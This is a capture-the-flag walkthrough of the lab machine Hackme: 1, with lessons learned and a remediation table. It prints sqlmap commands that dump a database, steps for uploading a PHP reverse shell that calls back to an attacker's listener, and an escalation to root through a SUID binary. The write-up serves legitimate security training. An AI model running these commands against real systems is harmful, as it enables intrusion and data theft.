


# Hackme: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.108 |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | root access |
| **Source** | [HackingArticles](https://www.hackingarticles.in/hackme-1-vulnhub-walkthrough/) |

## Attack Summary

Hackme: 1 is an easy boot-to-root machine designed around a web application with self-registration, SQL injection, and unrestricted file upload. After registering an account, an authenticated request is fed to sqlmap to dump the database and extract admin credentials. The admin panel accepts a PHP reverse shell upload. Once on the system, a SUID binary in `/home/legacy` named `touchmenot` escalates privileges to root.

## Methodology

1. Host discovery — Netdiscover
2. Service enumeration — Nmap
3. Account registration + request capture via Burp Suite
4. SQL injection database dump — sqlmap
5. Admin panel PHP reverse shell upload
6. Directory brute-force to find upload path — dirb
7. Reverse shell execution
8. SUID binary privilege escalation

## Step 1: Host Discovery and Port Scanning

```bash
netdiscover -r 192.168.1.0/24
nmap -A 192.168.1.108
```

Open ports:
- `22/tcp` — SSH
- `80/tcp` — HTTP


## Step 2: Web Enumeration and Account Registration

Browsing to `http://192.168.1.108` shows a login page with a sign-up link. Register a new account and log in. Capture the authenticated POST request in Burp Suite (Proxy) and save it to a file named `sql.txt`.

## Step 3: SQL Injection with sqlmap

Use the saved request to enumerate databases:

```bash
sqlmap -r sql.txt --dbs --batch
```

The database `webapphacking` is identified. Dump its contents:

```bash
sqlmap -r sql.txt -D webapphacking --dump-all --batch
```

The users table contains multiple accounts and a super admin record. Note the super admin username for use in the next step. Crack or bypass the hash as needed.


## Step 4: Authenticate as Super Admin and Upload PHP Shell

Log in to the application as the super admin. The admin panel is located at:

```
http://192.168.1.108/welcomeadmin.php
```

Prepare a PHP reverse shell:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php ~/shell.php
# Edit: set $ip = '<YOUR_LHOST>' and $port = 1234
```

Upload `shell.php` through the file upload feature in the admin panel.


## Step 5: Discover Upload Location and Trigger Shell

Run dirb to find where uploaded files are stored:

```bash
dirb http://192.168.1.108
```

The upload directory is found at `/uploads/`. Start the listener and trigger the shell:

```bash
# On attacker machine
nc -lvp 1234

# Trigger by navigating to:
# http://192.168.1.108/uploads/shell.php
```

A reverse shell connects back.



## Step 6: Privilege Escalation via SUID Binary

Search for SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

The directory `/home/legacy` contains a SUID binary named `touchmenot`. Execute it:

```bash
cd /home/legacy
./touchmenot
id
# uid=0(root) gid=0(root)
```

The binary drops a root shell directly. Navigate to `/root` to find the flag:

```bash
ls /root
cat /root/flag.txt
```



## Lessons Learned

- Self-registration features must never grant access to SQL-injectable endpoints. All user-controlled input passed to database queries must use parameterized statements.
- Admin panels that accept file uploads without verifying content type and without restricting execution of uploaded files represent critical RCE vulnerabilities.
- SUID binaries that are not part of the standard OS install are almost always intentional backdoors or misconfigured escalation vectors. Any SUID binary in a user home directory is highly suspicious.
- The principle of least privilege applies equally to web application roles: admin features must be protected by both authentication and authorization checks.

## Remediation

| Vulnerability | Fix |
|---|---|
| SQL injection | Use prepared statements with bound parameters; never interpolate user data into SQL |
| Unrestricted file upload | Validate content type and extension server-side; serve uploads from a separate domain with no PHP execution |
| SUID binary in user directory | Audit all SUID binaries: `find / -perm -4000 2>/dev/null`; remove SUID from any binary that does not require it |
| Weak admin credentials | Enforce strong password policies; use bcrypt or Argon2 for password hashing, never MD5 |
